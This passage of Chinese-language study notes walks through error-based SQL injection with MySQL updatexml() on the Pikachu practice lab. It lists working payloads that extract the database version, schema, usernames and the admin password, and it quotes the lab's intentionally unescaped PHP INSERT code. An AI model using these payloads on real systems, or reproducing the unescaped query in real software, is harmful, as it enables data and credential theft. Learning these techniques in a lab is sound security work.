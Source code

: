 ```php
    }else{
        $html.="<p>必填项不能为空哦</p>";
    }
}
```

## 基于函数报错注入_updatexml 

**基于函数报错的信息获取**

select、insert、update、delete

**思路**
- MySQL 中使用一些指定的函数来制造报错，从报错信息中获取设定的信息
- select / insert /update / delete 都可以使用报错来获取信息

**前提条件**
- 后台没有屏蔽数据库报错信息，在语法发生错误时会输出在前端

**三个常用的报错函数**
- updatexml() ：Mysql对XML文档数据进行查询和而修改的XPATH函数
- extractvalue() :  Mysql对XML文档数据进行查询的XPATH函数
- floor() ： Mysql用来取整的函数

**updatexml()**
- updatexml作用：改变(查找并替换)XML文档中符合条件节点的值
- 语法:UPDATEXML (XML_document, XPath_string, new_value)
    > XML_document是string格式，为XML文档对象名称 
    > XPath_string(Xpath格式的字符串)
    > new_value，String格式，替换查找到的符合条件的数据

**漏洞实验**

这里用pikachu的字符型注入做实验

```sql
' and updatexml(1, concat(0x7e, version()), 0)#
' and updatexml(1, concat(0x7e, database()), 0)#
' and updatexml(1, concat(0x7e, (select table_name from information_schema.tables where table_schema='pikachu' limit 0,1)), 0)#
' and updatexml(1, concat(0x7e, (select column_name from information_schema.columns where table_name='users' limit 0,1)), 0)#
' and updatexml(1, concat(0x7e, (select username from users limit 0,1)), 0)#
' and updatexml(1, concat(0x7e, (select password from users where username = 'admin' limit 0,1)), 0)#
```

## insert注入
**漏洞原理**
insert 注入是指我们前端注册的信息，后台会通过 insert 这个操作插入到数据库中。如果后台没对我们的输入做防 SQL 注入处理，我们就能在注册时通过拼接 SQL 注入。

**服务端核心代码**
```php
if(isset($_POST['submit'])){
    if($_POST['username']!=null &&$_POST['password']!=null){
//      $getdata=escape($link, $_POST);//转义

        //没转义,导致注入漏洞,操作类型为insert
        $getdata=$_POST;
        $query="insert into member(username,pw,sex,phonenum,email,address) values('{$getdata['username']}',md5('{$getdata['password']}'),'{$getdata['sex']}','{$getdata['phonenum']}','{$getdata['email']}','{$getdata['add']}')";
        $result=execute($link, $query);
        if(mysqli_affected_rows($link)==1){
            $html.="<p>注册成功,请返回<a href='sqli_login.php'>登录</a></p>";
        }else {
            $html.="<p>注册失败,请检查下数据库是否还活着</p>";
```